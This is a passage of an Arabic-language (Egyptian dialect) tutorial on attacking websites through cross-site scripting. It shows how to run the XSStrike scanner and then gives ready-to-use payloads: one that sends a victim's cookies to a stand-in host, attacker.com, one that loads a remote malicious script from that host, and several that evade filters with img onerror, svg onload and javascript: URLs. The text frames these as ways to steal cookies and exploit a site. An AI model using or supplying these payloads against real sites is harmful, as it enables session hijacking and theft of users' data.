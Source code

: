 - **XSStrike** (أداة مخصصة لـ XSS):
  1. نزّل XSStrike من GitHub:
     ```
     git clone https://github.com/s0md3v/XSStrike.git
     ```
  2. شغّل الأداة:
     ```
     python3 xsstrike.py -u "example.com/search?query=test"
     ```
  3. الأداة هتجرب Payloads مختلفة وتعرفك لو فيه ثغرة.

---

**خلاصة بالعامية:**
زي ما تكون بتخبّط على باب الموقع بحاجات مختلفة (Payloads) عشان تشوف لو الباب هيفتح. لو الباب فتح (يعني السكربت اشتغل)، يبقى الموقع فيه مشكلة وممكن تستغلها.

---

#### **الخطوة 2: كتابة Payloads فعالة**
لو اكتشفت إن الموقع مش بينظف المدخلات، هتبدأ تكتب **Payloads** تناسب الهدف. هنا شوية أمثلة عملية:

##### **1. Payload بسيط للاختبار:**
```html
<script>alert(document.cookie)</script>
```
- ده بيظهر الكوكيز بتاعة المستخدم. لو اشتغل، يبقى ممكن تسرق الكوكيز.

##### **2. Payload لسرقة الكوكيز:**
```html
<script>window.location='attacker.com/steal?cookie='+document.cookie</script>
```
- ده بيبعت الكوكيز لموقعك الخبيث (attacker.com). لازم يكون عندك سيرفر جاهز لتسجيل البيانات.

##### **3. Payload لتحميل سكربت خارجي:**
```html
<script src="attacker.com/malicious.js"></script>
```
- ده بيحمل سكربت من موقعك الخبيث. السكربت ممكن يكون معقد ويعمل حاجات زي تسجيل ضربات المفاتيح (Keylogging).

##### **4. Payload لتجاوز الفلاتر:**
لو الموقع بيمنع كلمة `<script>`، جرب أكواد تانية:
```html
<img src=x onerror=alert('XSS')>
```
- ده بيستخدم حدث `onerror` في الصورة عشان ينفذ السكربت.

أو:
```html
<svg onload=alert('XSS')>
```
- ده بيستخدم SVG مع حدث `onload`.

##### **5. Payload لتجنب HTML Encoding:**
لو الموقع بيعمل Encode للحروف زي `<` و `>`، جرب كود JavaScript مباشر:
```
javascript:alert('XSS')
```
- حطه في الـ URL كده:
   ```
   example.com/search?query=javascript:alert('XSS')
   ```

---